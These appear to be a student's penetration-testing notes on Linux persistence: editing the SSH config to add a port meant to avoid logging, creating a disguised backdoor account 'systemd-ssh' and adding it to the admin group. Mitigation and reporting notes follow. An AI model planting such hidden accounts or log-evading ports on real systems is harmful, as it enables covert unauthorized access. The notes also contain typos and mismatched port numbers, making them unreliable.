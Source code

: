 sudo less /etc/shh/shhd_config
![[16.4.0.6.jpg]]
- listenaddress
	- Listen to all ip address

sudo nano /etc/shh/sshd_config
![[16.4.0.7.jpg]]
- Adding Port 10022 
	- We open port 10022 because we do not want them to log our log in
- If we log into port 22 
	- There will be logs and they will see this and fix it 
Note: 
- If Linux - It is easier to hack into Linux machines because they might be harder to manage without any porgram
- if windows - It is easier to find because when you are login to the computer, it will show other user login


NOTE: We are going add a backdoor user as systemd-shh 
- This can be found if the ID is above 1000 which means they are not part of administrator 

sudo adduser systemd-ssh
password:password

ls /home 
- we can see our user in systemd-ssh 
	- Pen tester do not like this because it has crumbles 
	- So we want to hide it 

sudo reboot now

ssh -p 1002 systemd-ssh@172.22.117.150
password:password
![[16.4.0.8.jpg]]
- We are able to sign into the new user that we created named systemd-shh in open port 10022 that was created 

Mitigation: 
- Do not add random ports 
- Monitor for any users adding ports, users, and any users in admin group 


![[16.4.0.9.jpg]]
sudo usermod -aG admin systemd-ssh
- We are able to add systemd-ssh into admin group

Mitigation:
- Monitor logs with new admin group or id changes 
___
**Phase 5: Reporting**
**Reporting**
Communicating is the key component in linking actions to result 
- To the client, the quality of the report reflects the quality of the pen tester's work 
- Poorly written report could make the client believe the pentester is incompetent and the pentest was a failure, even if the pentester had several important finding 
- Well-written report will help establish the pentester's reputation and perhaps even generate repeat business, while taking a positive step toward remediating any finding within the client's network 
